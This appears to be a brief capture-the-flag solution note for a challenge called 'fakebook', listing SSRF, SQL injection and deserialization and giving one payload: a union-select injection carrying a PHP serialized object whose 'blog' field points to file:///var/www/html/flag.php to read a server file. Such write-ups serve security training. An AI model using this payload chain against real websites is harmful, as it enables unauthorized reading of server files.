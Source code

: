 

# fakebook

* ssrf + 注入 + 序列化
> ?no=0/**/union/**/select 1,2,3,'O:8:"UserInfo":3:{s:4:"name";s:1:"1";s:3:"age";i:1;s:4:"blog";s:29:"file:///var/www/html/flag.php";}'
